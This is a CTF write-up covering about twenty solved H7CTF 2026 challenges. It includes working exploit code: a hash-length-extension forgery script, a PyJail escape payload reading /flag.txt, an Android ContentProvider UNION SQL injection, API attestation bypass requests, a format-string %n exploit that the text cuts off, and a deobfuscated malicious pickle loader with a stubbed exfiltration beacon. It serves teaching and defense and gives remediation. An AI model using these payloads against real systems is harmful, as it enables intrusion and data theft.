





# Introduction

**H7CTF 2026** is a 36-hour jeopardy-style Capture The Flag competition. Across its challenges it spans a wide spectrum of domains: AI/ML supply-chain security, Cryptography, Digital Forensics, Miscellaneous puzzles, Mobile, Binary Exploitation (Pwn), and Reverse Engineering.

In this edition, I participated alongside the **Jenusdy** team and we solved **22 challenges** across all seven categories. This post is the complete compendium of our solves: the key concepts, the techniques, and the full technical walkthroughs.

---

## Solved Challenges Overview

| Category | Challenge | Key Concept | Flag |
| :--- | :--- | :--- | :--- |
| **AI** | [Model Package Autopsy](#model-package-autopsy) | Insecure pickle deserialization in a fake PyTorch checkpoint | `H7CTF{64080f42b43c8e48033c}` |
| **Crypto** | [Owner's Draw](#owners-draw) | Hash Length Extension + HTTP parameter pollution | `H7CTF{60dced35-1af3-41ed-9743-59340e844deb}` |
| **Crypto** | [Shared Blood](#shared-blood) | RSA shared-prime factorization via GCD | `H7CTF{82ad8d94-2fed-4715-bcc5-ea4868d3035c}` |
| **Forensics** | [Ghost in the Timeline](#ghost-in-the-timeline) | ext4 timestomping analysis & deleted-file carving | `H7CTF{e211b7db9d4f5c9f0812}` |
| **Forensics** | [Gone Not Forgotten](#gone-not-forgotten) | SQLite deleted-row carving & XOR deobfuscation | `H7CTF{7adf9695fb655c752810}` |
| **Forensics** | [Low and Slow](#low-and-slow) | DNS tunneling & Base32 exfiltration | `H7CTF{6787b86cc777f426b9c0}` |
| **Misc** | [Assembly Line](#assembly-line) | TCP task automation (250 tasks / 2s each) | `H7CTF{ca47b850-7567-4d90-9aae-d1ffeef24907}` |
| **Misc** | [Out of the Box](#out-of-the-box) | PyJail escape via subclass introspection | `H7CTF{10d0eba4-9291-4a4f-a23d-9b922f2f2364}` |
| **Misc** | [Overexposed](#overexposed) | PNG `zTXt` chunk & ZIP central-directory tampering | `H7CTF{06da61b5c60e087c87c9}` |
| **Misc** | [The Ledger Opens](#the-ledger-opens) | Kickoff announcement flag | `H7CTF{the_ledger_is_open_let_the_reckoning_begin}` |
| **Misc** | [Time Capsule](#time-capsule) | Git dangling/unreachable blob recovery | `H7CTF{116f8522b35663cde2ce}` |
| **Mobile** | [Help Yourself](#help-yourself) | Exported ContentProvider SQLi + weak API attestation | `H7CTF{74a6446d-7a6c-4c2d-b6c9-aba79f13a08d}` |
| **Mobile** | [Onyx Locker](#onyx-locker) | Hardcoded AES key/IV over a local vault cache | `H7CTF{8b4f0155-a5b0-42dc-b0c4-19d25d50d9c7}` |
| **Pwn** | [Manifest Destiny](#manifest-destiny) | Format string `%n` write to a global flag | `H7CTF{32c1d8cc-8df9-4a60-b266-0d801143764e}` |
| **Pwn** | [Papers Please](#papers-please) | Classic ret2win stack overflow | `H7CTF{5def887f-5097-42f5-a732-cae63a9129ea}` |
| **Pwn** | [Parcel Bomb](#parcel-bomb) | ret2libc: GOT leak + `system("/bin/sh")` | `H7CTF{d3bb522e-618e-456a-a93c-6ba3a210036d}` |
| **Pwn** | [Safe Space](#safe-space) | seccomp whitelist bypass with raw `open`/`read`/`write` shellcode | `H7CTF{839fdc98-ae79-4184-87c8-cccb0d1fd8d7}` |
| **Rev** | [Constraint Yourself](#constraint-yourself) | z3 bit-vector CSP over a 16-byte key | `H7CTF{b7edd2b4-a6be-4a9a-87b5-aa96fc87d06e}` |
| **Rev** | [Lockstep](#lockstep) | 16×16 linear system over Z/256 | `H7CTF{b169235b-bed2-48bd-aaf6-a76afd77fff2}` |
| **Rev** | [Modem Operandi](#modem-operandi) | Bytecode state-machine validation | `H7CTF{476f0831f4c4eec5b790}` |
| **Rev** | [Rust in Peace](#rust-in-peace) | Invertible per-byte transform on a stripped Rust binary | `H7CTF{3f7b3f564a5524ce863d}` |
| **Rev** | [Toll Story](#toll-story) | Go `.gopclntab` recovery + invertible word check | `H7CTF{323dbad5-e8e7-43ba-b5a7-99c524e08231}` |

---

# 1. AI

## Model Package Autopsy
> **Tags:** ML Supply Chain, Insecure Deserialization (pickle), Static Analysis

### About the Challenge
We are handed a HuggingFace-style model package, `sentiment-distilbert-meridian/`, containing a `config.json`, a `README.md`, and a `pytorch_model.bin`.

### Solution Walkthrough

#### 1. Triage — two immediate anomalies

1. **Size:** a real fine-tuned DistilBERT checkpoint is ~260 MB; this one is only **792 KB**.
2. **Insecure prompt:** both `README.md` and `test.py` instruct the user to load with `torch.load(..., weights_only=False)` — a textbook sign of a `pickle`-based payload.

#### 2. Static pickle disassembly
Instead of loading the model, inspect the archive safely:

```bash
file sentiment-distilbert-meridian/pytorch_model.bin
# Zip archive data, at least v0.0 to extract, compression method=store

unzip -l sentiment-distilbert-meridian/pytorch_model.bin
#   pytorch_model/data.pkl   (1101 bytes)  <-- the serialized object
```

Disassemble `data.pkl` **without executing it**:

```python
import zipfile, pickletools

with zipfile.ZipFile("sentiment-distilbert-meridian/pytorch_model.bin") as z:
    pickletools.dis(z.read("pytorch_model/data.pkl"))
```

At offset 687 an `_extra_state` entry uses `__builtin__.eval` on a Base64 + zlib blob:

```text
 687: X  BINUNICODE '_extra_state'
 706: c  GLOBAL     '__builtin__ eval'
 726: X  BINUNICODE "exec(__import__('zlib').decompress(__import__('base64').b64decode('eJw9j01L...')).decode())"
1096: R  REDUCE
```

#### 3. Deobfuscating the payload

```python
import base64, zlib
payload = "eJw9j01Lw0AQhu/7K17ooS3aUkzQEPEgonirlN5lk52Ywc1OnN31A/G/uyj6MrcZnnneBSZSdmzDZvLoMnsH+0QhoW0xS0wbL9ZhFHnGygmCJMSR57XhaRZNkHiKrN5zt1V6yRST2T/cHq6P+wOusLy/uDnefZ7Xu2Y31GddXfUN1c2uqvqvpXE04LEj20tYrVuDkgXeJBcHeh/YF/iWwiurBJwUh5jAYRCkMiNBZlKbRKHk7cclAuVESq4clT3H3zo/WKWUNeDPzPx/Nd9aclOe"
print(zlib.decompress(base64.b64decode(payload)).decode())
```

The decompiled payload is a fake "post-load hook":

```python
# meridian-ml build agent :: post-load hook (do not ship)
import os, urllib.request
OPERATOR = 'H7CTF{64080f42b43c8e48033c}'
def _beacon():
    # would exfil os.environ + host info to the operator relay; neutered in this build
    return OPERATOR
_beacon()
```

### Remediation
- Always load untrusted checkpoints with `weights_only=True` (default since PyTorch 2.4).
- Prefer the **Safetensors** format, which stores only tensors + raw headers and removes the `pickle` RCE surface entirely.
- Integrate `picklescan` into model-ingestion CI pipelines.

**Flag:** `H7CTF{64080f42b43c8e48033c}`

---

# 2. Cryptography

## Owner's Draw
> **Tags:** Hash Length Extension, Merkle–Damgård, Parameter Pollution

### About the Challenge
OrionPay validates a `/webhook` endpoint against an `X-Signature` header. We are given one genuine request:

```text
Body:      event=payment.succeeded&amount=500&currency=usd&customer=cus_9f2a&role=guest
Signature: c215c9ca1a8d471bb2edec0ec5c7b0c13e138026eb88fbff5b51a72b4f4ddf59
```

### Solution Walkthrough

#### 1. The flawed MAC
The signature is 64 hex chars (SHA-256), and the scheme is the naive prefix construction:

$$\text{Signature} = H(\text{Secret} \parallel \text{Body})$$

Because SHA-256 uses the **Merkle–Damgård** construction, `H(K || M)` is vulnerable to a **Hash Length Extension Attack**: knowing the digest and the length of `K || M`, an attacker can compute a valid digest for `M || padding || M_append` **without knowing the secret**.

#### 2. Privilege escalation
The body carries `role=guest`. Appending `&role=owner` exploits **parameter pollution** — most frameworks take the *last* occurrence, so the backend parses the attacker-controlled `role=owner` while the signature remains valid.

#### 3. Exploit

```python
import hashpumpy, requests

original_body = "event=payment.succeeded&amount=500&currency=usd&customer=cus_9f2a&role=guest"
original_sig  = "c215c9ca1a8d471bb2edec0ec5c7b0c13e138026eb88fbff5b51a72b4f4ddf59"
append        = "&role=owner"

for secret_len in range(1, 40):
    new_sig, new_body = hashpumpy.hashpump(original_sig, original_body, append, secret_len)
    r = requests.post(
        "https://web-.../webhook",
        data=new_body,
        headers={"X-Signature": new_sig,
                 "Content-Type": "application/x-www-form-urlencoded"},
    )
    if r.status_code == 200 and "{" in r.text:
        print(secret_len, new_sig, r.text)
        break
```

The secret length was found to be **15 bytes**:

```text
[len=15] status=200 resp={"ok": true, "payout": "authorized",
                          "flag": "H7CTF{60dced35-1af3-41ed-9743-59340e844deb}"}
```

### Remediation
Use a proper **HMAC** (`hmac.compare_digest`), never `H(key || data)`, or a length-extension-immune hash such as **BLAKE2/3** or **SHA-3/KMAC**.

**Flag:** `H7CTF{60dced35-1af3-41ed-9743-59340e844deb}`

---

## Shared Blood
> **Tags:** RSA, Shared Prime, GCD Factorization

### About the Challenge
> VoltEye ships a whole fleet of identical cameras, cranked out on the same assembly line, in the same hurry. Family resemblance runs deeper than you'd think.

We are given a JSON fleet of RSA public moduli (`n`) for many devices, plus an intercepted PKCS#1 v1.5 ciphertext for one target serial.

### Solution Walkthrough
"Family resemblance" is the hint: devices built in the "same hurry" may have been generated with **poor entropy**, so their RSA moduli share a prime factor.

#### 1. Recover the shared prime via pairwise GCD
If two moduli `n1` and `n2` share a prime `p`, then `gcd(n1, n2) = p`.

```python
import math
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5

devices = fleet_data["devices"]
target_serial = "VE-53D586E6"
target_n = next(d["n"] for d in devices if d["serial"] == target_serial)

# find a colliding pair whose gcd factors the target modulus
for i in range(len(devices)):
    for j in range(i + 1, len(devices)):
        g = math.gcd(devices[i]["n"], devices[j]["n"])
        if g > 1 and target_n in (devices[i]["n"], devices[j]["n"]):
            p, q = g, target_n // g
            break

phi = (p - 1) * (q - 1)
d = pow(65537, -1, phi)
key = RSA.construct((target_n, 65537, d, p, q))
plaintext = PKCS1_v1_5.new(key).decrypt(bytes.fromhex(ciphertext_hex), b"FAILED")
print(plaintext.decode(errors="ignore"))
```

Once the modulus is factored, the private exponent is trivial and the intercepted token decrypts.



### Remediation
Generate RSA keys with a CSPRNG and re-verify that `gcd(n_i, n_j) == 1` across the whole fleet before shipping.

**Flag:** `H7CTF{82ad8d94-2fed-4715-bcc5-ea4868d3035c}`

---

# 3. Forensics

## Ghost in the Timeline
> **Tags:** ext4, Timestomping, Deleted File Carving, TSK

### About the Challenge
An engineer is accused of stealing a product roadmap, but the alibi is that *"every timestamp agrees."* We get `case_disk.img`, a raw ext4 filesystem.

### Solution Walkthrough

#### 1. Filesystem enumeration
```bash
$ fls -r -p case_disk.img
r/r 20: home/jdoe/designs/notes.txt
r/r 21: home/jdoe/designs/roadmap.pdf
r/r * 23: home/jdoe/.cache/staging/q3_designs.zip   # '*' = deleted
r/r 22: var/log/auth.log
```

The deleted `q3_designs.zip` already contradicts *"nothing was staged, nothing deleted."*

#### 2. Breaking the alibi (timestomping)
```bash
$ istat case_disk.img 21
Accessed:      2026-06-01 15:30:00   (backdated)
File Modified: 2026-06-01 15:30:00   (backdated)
Inode Modified:2026-09-26 03:22:32   (ctime — cannot be spoofed easily)
File Created:  2026-09-26 03:22:32   (crtime)
```

`atime`/`mtime` were backdated with `touch -d`, but **`ctime`/`crtime`** record the true manipulation time. `var/log/auth.log` (inode 22) confirms:

```text
Sep 17 02:11:04 ws-jdoe sudo: jdoe : ... USER=root ; COMMAND=/usr/bin/zip
```

#### 3. Carving the staged archive
```bash
$ istat case_disk.img 23      # Not Allocated, Direct Blocks: 1502 1503 1504 1505
$ icat case_disk.img 23 > q3_designs.zip
$ unzip -p q3_designs.zip secret.txt | grep -E "CTF|token"
recovery token: H7CTF{e211b7db9d4f5c9f0812}
```

**Flag:** `H7CTF{e211b7db9d4f5c9f0812}`

---

## Gone Not Forgotten
> **Tags:** SQLite Forensics, Deleted Row Carving, XOR Obfuscation

### About the Challenge
A phone for a harassment case contains an Android app's data: `evidence/secure.xml` and `evidence/messages.db`. The suspect claims nothing was sent; the hint: *"Deleting a thing and being rid of it were never the same move."*

### Solution Walkthrough

#### 1. The configuration
```xml
<map>
  <string name="obfuscation_key">n0v4ch4t</string>
  <string name="stored_body_encoding">hex(xor(body, obfuscation_key))</string>
</map>
```

#### 2. The missing row
```bash
$ sqlite3 evidence/messages.db "SELECT * FROM messages;"
1|general|alice|...|lunch at 1?
2|general|bob|...|sure, the usual spot
3|general|alice|...|cool, see you
5|ops|mallory|...|burn this after you read it   # <-- _id = 4 is missing
...
```

#### 3. Carving unallocated space
SQLite does not wipe freed pages unless `VACUUM`/`secure_delete` runs:

```bash
$ strings -n 10 evidence/messages.db
...
26073560251303150a564f025a5d521658054357545d064c5f000b
```

Decode the leftover hex with the XOR key:

```python
hex_data = "26073560251303150a564f025a5d521658054357545d064c5f000b"
key = b"n0v4ch4t"
raw = bytes.fromhex(hex_data)
flag = bytes(b ^ key[i % len(key)] for i, b in enumerate(raw)).decode()
# H7CTF{7adf9695fb655c752810}
```

**Flag:** `H7CTF{7adf9695fb655c752810}`

---

## Low and Slow
> **Tags:** Network Forensics, DNS Tunneling, Base32

### About the Challenge
> Six weeks, not one alert... Something in here has been talking to the outside on a very patient schedule.

We get `capture.pcap`.

### Solution Walkthrough

#### 1. Protocol hierarchy & anomaly
```bash
tshark -r capture.pcap -q -z io,phs
tshark -r capture.pcap -Y dns -T fields -e dns.qry.name | sort -u
```

Mostly benign traffic, except a set of beaconed domains:

```text
00ja3ugvcgpm3doobx.sync.cdn-telemetry-lab.net
01mi4dmy3dg43tozru.sync.cdn-telemetry-lab.net
02gi3geoldgb6q.sync.cdn-telemetry-lab.net
```

Each subdomain prefix is a **2-digit chunk index + a Base32 payload**.

#### 2. Reassembling the beacon
```python
import base64, re
pattern = re.compile(r'^(\d{2})([a-z2-7]+)\.sync\.cdn-telemetry-lab\.net$')
chunks = {}
for q in dns_queries:
    m = pattern.match(q)
    if m:
        chunks[m.group(1)] = m.group(2)

flag = ""
for idx in sorted(chunks):
    raw = chunks[idx].upper()
    flag += base64.b32decode(raw + "=" * ((8 - len(raw) % 8) % 8)).decode()

print(flag)   # H7CTF{6787b86cc777f426b9c0}
```

| Chunk | Base32 | Decoded |
| :---: | :---: | :--- |
| `00` | `JA3UGVCGPM3DOOBX` | `H7CTF{6787` |
| `01` | `MI4DMY3DG43TOZRU` | `b86cc777f4` |
| `02` | `GI3GEOLDGB6Q====` | `26b9c0}` |

**Flag:** `H7CTF{6787b86cc777f426b9c0}`

---

# 4. Misc

## Assembly Line
> **Tags:** Automation, Socket Programming, Timing

### About the Challenge
Connect to `nc pwn.h7tex.com 43320` and answer **250 consecutive tasks within a 2-second limit each**:

```text
=== Sparrow Freight sorting line ===
answer 250 tasks, 2s each. go.
```

### Solution Walkthrough
The 2-second per-task limit rules out manual solving. Four task types appear:

| Type | Format | Operation |
| :--- | :--- | :--- |
| `reverse` | `<string>` | Reverse the string |
| `eval` | `<num1> <op> <num2>` | Evaluate the arithmetic expression |
| `sum` | `<n1>,<n2>,...` | Sum a comma-separated list |
| `b64` | `<base64>` | Decode a Base64 string |

An automated `socket` client parses each prompt with a regex and replies instantly:

```python
# reverse -> arg[::-1]
# eval    -> eval(arg)
# sum     -> sum(map(int, arg.split(',')))
# b64     -> base64.b64decode(arg).decode()
```



After all 250 tasks:

```text
LINE: line cleared! H7CTF{ca47b850-7567-4d90-9aae-d1ffeef24907}
```

**Flag:** `H7CTF{ca47b850-7567-4d90-9aae-d1ffeef24907}`

---

## Out of the Box
> **Tags:** Python Jail (PyJail), Sandbox Escape, Object Introspection

### About the Challenge
A sandboxed evaluator (`jail.py`) reads one expression per line and evaluates it with **empty builtins**. The flag lives at `/flag.txt`. Three defenses are in place:

1. `MAXLEN = 400`
2. A denylist (`import`, `eval`, `exec`, `open`, `os`, `sys`, `flag`, `print`, `getattr`, `chr`, `\`, ...)
3. `eval(src, {"__builtins__": {}}, {})`

### Solution Walkthrough

#### 1. The payload (333 chars)

```python
[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__=='_Prin'+'ter'][0].__init__.__globals__['s'+'ys'].modules['o'+'s'].__dict__['re'+'ad']([x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__=='_Prin'+'ter'][0].__init__.__globals__['s'+'ys'].modules['o'+'s'].__dict__['o'+'pen']('/f'+'lag.txt',0),100)
```

#### 2. Why it works
- **Denylist bypass via string concatenation:** forbidden keywords are built at runtime (`'_Prin'+'ter'`, `'o'+'s'`, `'/f'+'lag.txt'`) so the static substring check never matches.
- **Root hierarchy:** `().__class__.__bases__[0]` reaches `object`.
- **Subclass introspection:** `object.__subclasses__()` finds `_Printer` (from `site.py`) by name instead of a fragile hardcoded index.
- **Module breakout:** `_Printer.__init__.__globals__['sys']` exposes the `sys` module, and `sys.modules['os']` reaches `os`.
- **Low-level I/O:** `os.__dict__['open']` and `os.__dict__['read']` bypass the `getattr` ban, opening `/flag.txt` (fd 0 = `O_RDONLY`) and reading it.

Because the jail wraps the result in `repr(eval(...))`, the bytes object is printed directly:

```text
b'H7CTF{10d0eba4-9291-4a4f-a23d-9b922f2f2364}'
```



**Flag:** `H7CTF{10d0eba4-9291-4a4f-a23d-9b922f2f2364}`

---

## Overexposed
> **Tags:** PNG Steganography, zTXt Chunk, ZIP Central-Directory Tampering

### About the Challenge
A single PNG, `overexposed.png` (520×220, 3,393 bytes). The hint: *"a picture carries more than its pixels."*

### Solution Walkthrough

The flag is split across three structures.

#### 1. The pixel decoy
Contrast-stretching the nearly-black image reveals the text *"nothing to see in the pixels"* — a red herring pointing away from the pixel data.

#### 2. `zTXt` metadata → `part1`
```text
IHDR @8, zTXt @33, IDAT @67, IEND @3009
```
Decompressing the `zTXt` chunk:

```python
zlib.decompress(cdata[null_idx+2:]).decode()   # part1: 06da61b
```

#### 3. Appended ZIP with a tampered central directory
312 bytes past `IEND` sits a ZIP archive. The Central Directory only indexes `readme.txt`, but three local `PK\x03\x04` headers exist:

```text
Offset 3021: Local File Header - readme.txt
Offset 3220: Local File Header - part2.txt
Offset 3268: Local File Header - part3.txt
Offset 3315: Central Directory Header - readme.txt   (count = 1)
```

`readme.txt` spells it out: *"Members can exist without the index admitting them -- read the raw local headers."* Parsing the local headers directly yields:

- `part2.txt` → `5c60e08`
- `part3.txt` → `7c87c9`

#### 4. Assembly

| Part | Location | Value |
| :--- | :--- | :--- |
| 1 | PNG `zTXt` | `06da61b` |
| 2 | raw ZIP header | `5c60e08` |
| 3 | raw ZIP header | `7c87c9` |

**Flag:** `H7CTF{06da61b5c60e087c87c9}`

---

## The Ledger Opens
> **Tags:** OSINT, Announcement

### About the Challenge
> Welcome to H7CTF'26. The ledger is open.

The first flag was posted at kickoff in the **#announcements** Discord channel.

### Solution Walkthrough
No exploitation required — grab the flag from the announcement and submit it:

```text
H7CTF{the_ledger_is_open_let_the_reckoning_begin}
```



**Flag:** `H7CTF{the_ledger_is_open_let_the_reckoning_begin}`

---

## Time Capsule
> **Tags:** Git Archaeology, Dangling Objects

### About the Challenge
An internal `sparrow-freight-api` repository warns: *"Do NOT commit secrets - use the vault."* Some carrier credentials were "removed or rotated" before finalizing `main`.

### Solution Walkthrough

#### 1. Active history is clean
```bash
$ git log --oneline
7158687 pin gunicorn
a660e8b config: carrier api base url
a22d386 add gitignore
f782fc7 initial: shipment tracking skeleton

$ git log -S "H7CTF"        # nothing
```

#### 2. Hunt dangling objects
Objects created by `git add`/reset/amend survive until `git gc` prunes them:

```bash
$ git fsck --full --lost-found --unreachable
unreachable blob c3d46ca9c0a373e94eae205cfad3e7ba7718e150
unreachable blob 698e3c6c553b697a80b4b44d7c29f1f345ceea21
```

#### 3. Inspect the blobs
```bash
$ git cat-file -p 698e3c6c...   # decoy
CARRIER_API_TOKEN=H7CTF{this_token_was_rotated_not_the_flag}

$ git cat-file -p c3d46ca9...   # real
# production carrier credentials - DO NOT COMMIT
CARRIER_API_TOKEN=H7CTF{116f8522b35663cde2ce}
CARRIER_API_SECRET=b7f3c1a9e2d84f6b90care1a2b3c4d5e
```

A one-liner dumps every loose object:

```bash
find .git/objects -type f | while read -r obj; do
  hash=$(echo "$obj" | sed 's/\.git\/objects\///' | tr -d '/')
  git cat-file -p "$hash" 2>/dev/null
done | grep -E "H7CTF\{[^\}]+\}"
```

**Flag:** `H7CTF{116f8522b35663cde2ce}`

---

# 5. Mobile

## Help Yourself
> **Tags:** Android, Exported ContentProvider, SQL Injection, Weak Attestation

### About the Challenge
`deskline-1.6.0.apk` (`com.deskline`) is a support-desk app. A single "agent-only" note is hidden in its queue.

### Solution Walkthrough

#### 1. Recon & static analysis
The APK is unobfuscated. `jadx -d jadx_out deskline-1.6.0.apk` exposes the classes, and the manifest reveals an exported provider:

```text
E: provider
  A: android:name=".TicketProvider"
  A: android:exported="true"
  A: android:authorities="com.deskline.tickets"   # no permission!
```

#### 2. Where the secret lives
`DeskDb.seedFromSync()` inserts public complaints into `tickets` and the single secret into a **separate `credentials` table the UI never renders**:

```java
JSONObject internal = obj.getJSONObject("internal");
values.put("label", internal.getString("label"));
values.put("value", internal.getString("value"));
db.insert("credentials", null, values);
```

#### 3. The SQL injection
`TicketProvider.query()` concatenates caller input straight into SQL:

```java
String sql = "SELECT id, subject, body FROM tickets";
if (selection != null && selection.trim().length() > 0) {
    sql = "SELECT id, subject, body FROM tickets WHERE " + selection;   // injection
}
```

Exploit with a `UNION`:

```bash
adb shell content query \
  --uri content://com.deskline.tickets/ \
  --where "1=1 UNION SELECT 1,label,value FROM credentials"
```

```text
Row: 0 id=1, subject=vault-unseal-code, body=H7CTF{74a6446d-7a6c-4c2d-b6c9-aba79f13a08d}
```

#### 4. The easier API path
The backend only checks a hardcoded attestation header, and `/api/v1/sync` returns `internal` to any authenticated caller:

```bash
TOKEN=$(curl -s -X POST $HOST/api/v1/auth/device \
  -H 'X-Deskline-Client: Deskline-Android/1.6.0' \
  -H 'Content-Type: application/json' \
  -d '{"device_id":"dsk-..."}' | jq -r .token)

curl -s $HOST/api/v1/sync -H "Authorization: Bearer $TOKEN"
# {"internal":{"label":"vault-unseal-code","value":"H7CTF{74a6446d-...}"}, "tickets":[...]}
```

### Remediation
`android:exported="false"` (or a signature-level permission), parameterized SQL via `selectionArgs`, encrypt secrets with the Android Keystore, and bind device identity to the token server-side.

**Flag:** `H7CTF{74a6446d-7a6c-4c2d-b6c9-aba79f13a08d}`

---

## Onyx Locker
> **Tags:** Android, Hardcoded Crypto, AES-CBC

### About the Challenge
`onyx-locker-2.4.0.apk` (`com.onyx.locker`) is a credential vault that caches an encrypted copy of its data locally at `/data/data/com.onyx.locker/files/vault.enc`.

### Solution Walkthrough

#### 1. Crypto specs from `VaultCrypto.smali`

| Parameter | Value |
| :--- | :--- |
| Cipher | `AES/CBC/PKCS5Padding` |
| Key | `0nyxL0ck3r_v4ult_K3y_32bytes_ok!` (AES-256) |
| IV | `0nyxLckrIV_16byt` |
| Path | `/data/data/com.onyx.locker/files/vault.enc` |

#### 2. Pull the cache
The app is `android:debuggable="true"`, so `run-as` reads its private storage:

```bash
adb exec-out "run-as com.onyx.locker cat files/vault.enc" > vault.enc
```

#### 3. Decrypt

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding

KEY = b"0nyxL0ck3r_v4ult_K3y_32bytes_ok!"
IV  = b"0nyxLckrIV_16byt"

cipher = Cipher(algorithms.AES(KEY), modes.CBC(IV))
dec = cipher.decryptor()
padded = dec.update(open("vault.enc","rb").read()) + dec.finalize()
unpad = padding.PKCS7(128).unpadder()
print((unpad.update(padded) + unpad.finalize()).decode())
```

The decrypted vault contains the recovery code:

```json
{"items":[
  {"label":"Personal email","secret":"sunflower-canyon-7"},
  {"label":"Bank card PIN","secret":"4417"},
  {"label":"Router admin","secret":"Nair!home2025"},
  {"label":"Onyx account recovery code","secret":"H7CTF{8b4f0155-a5b0-42dc-b0c4-19d25d50d9c7}"}
]}
```

**Flag:** `H7CTF{8b4f0155-a5b0-42dc-b0c4-19d25d50d9c7}`

---

# 6. Pwn

## Manifest Destiny
> **Tags:** Format String, `%n` Arbitrary Write

### About the Challenge
> Sparrow Freight keeps its cargo manifest under admin clearance... the terminal loves feedback and takes your every word to heart.

The binary (`manifest`, x86-64, non-PIE, no canary) has a menu: `1) leave feedback`, `2) view manifest`, `3) exit`.

### Solution Walkthrough

#### 1. The bug
`feedback()` passes user input directly as a format string:

```c
void feedback(void) {
    char buf[0xc8];
    read(0, buf, 0xc7);
    printf("You said: ");
    printf(buf);          // <-- format string vulnerability
}
```

`view_manifest()` only checks a global, `is_admin` at `0x40407c`.

#### 2. Find the argument index
Sending `AAAA.BBBB|%1$p|...|%19$p` shows the buffer starts at printf vararg **6** (`0x4242424241414141` at index 6).

So `buf[8:16]` is vararg **7** — perfect for a `%n` target pointer.

#### 3. Write to `is_admin`
```python
from pwn import *
IS_ADMIN = 0x40407C

p = remote("pwn.h7tex.com", 41949)
p.recvuntil(b"exit\n"); p.sendline(b"1")
p.recvuntil(b"operators:\n")

